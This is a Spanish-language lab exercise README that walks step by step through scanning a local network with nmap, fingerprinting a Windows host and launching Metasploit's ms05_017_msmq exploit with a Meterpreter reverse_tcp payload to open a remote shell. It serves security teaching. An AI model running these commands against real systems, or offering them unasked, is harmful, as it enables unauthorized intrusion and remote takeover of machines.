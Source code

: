 # Ejercicio 1 (Primer Exploit)

## Exploit Activo

Este primer ejercicio consiste en el uso de un primer exploit a partir del escaneo de todos los dispositivos que se encuentran dentro de la red.

### Prerequisistos

* Tener instalado **Metasploit**
* Tener instalado **Nmap**

### Desarrollo

Primero identificamos en que tipo de red nos encontramos (Clase A, B, C) para poder llevar a cabo el escaneo con Nmap.
Ejecutamos el siguiente comando:

```bash
ifconfig
```

Para este caso en especifico, nos situamos dentro de una red tipo C

![ifconfig](imagenes/ifconfig.png)

A continuación realizamos el escaneo de los dispositivos conectados a la red:

```bash
nmap 192.168.1.*
```

Tras la siguiente salida, enfocaremos el ataque al dispositivo con la dirección IP ```192.168.1.66```

![Escaneo Nmap](imagenes/salida_nmap.png)

Para detectar el SO que tiene dicho dispositivo, utilizamos el comando:

```bash
nmap --script smb-os-discovery.nse 192.168.1.66
```
![Tipo de Sistema Operativo](imagenes/tipo_so.png)

Para detectar los servicios que estan corriendo en el dispositivo, ejecutamos:

```bash
nmap -sV 192.168.1.66
```

![Servicios Ejecutandose](imagenes/servicios.png)

Para este caso explotaremos la vulnerabilidad del servicio `msrpc` buscando un exploit.

Primero iniciaremos **Metasploit**

```bash
msfconsole
```

A continuación realizamos la búsqueda del exploit con:

```bash
search msrpc
```

![Search msrpc](imagenes/search_msrpc.png)

Para ver con mas detalle en que consiste este exploit, utilizamos el comando:

```bash
info exploit/windows/dcerpc/ms05_017_msmq
```

![Info msrpc](imagenes/info_msrpc.png)

Para hacer uso del exploit ejecutamos el comando:

```bash
use exploit/windows/dcerpc/ms05_017_msmq
```

Como en muchos de los exploits, es necesario configurar algunas opciones, para conocer a detalle que opciones hay que configurar, despues de ejecutar el comando anterior utilizamos:

```bash
show options
```

Es importante señalar que aquellas opciones cuyo valor sea **yes** en el parametro **Required** son obligatorias de configurar. Para configurar alguna de las opciones utilizamos la sentencia `set` cuya sintáxis es la siguiente:

```bash
set [nombre de la opción] [valor]
```

Para este ejercicio es necesario configurar la opción **rhost**, de tal forma que la instrucción encargada de realizar dicha configuración seria la siguiente:

```bash
set rhost 192.168.1.66
```

Para visualizar aquellos **payloads** que son compatibles con el exploit que estamos utilizando, hacemos uso del comando:

```bash
show payloads
```

Para este ejercicio utilizaremos el payload `windows/meterpreter/reverse_tcp`, especificandolo con el comando:

```bash
set payload windows/meterpreter/reverse_tcp
```
Después de realizar las configuraciones necesarias lanzamos el exploit con el comando:

```bash
exploit
```
